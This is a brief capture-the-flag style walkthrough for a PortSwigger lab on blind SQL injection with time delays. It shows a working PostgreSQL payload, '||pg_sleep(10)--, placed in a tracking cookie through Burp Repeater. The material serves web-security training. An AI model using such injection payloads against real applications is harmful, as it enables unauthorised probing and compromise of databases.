



# Blind SQL injection with time delays

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

## The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a 10 second delay

___

#blind_sql #time_delay 

step 1

go to proxy => http history => select any Request => then send to repeater



step 2

add `'||pg_sleep(10)--`
```sql
TrackingId=H6PEjxCz0hhaCVYE'||pg_sleep(10)--
```



step 3

Reload page to solve the lab

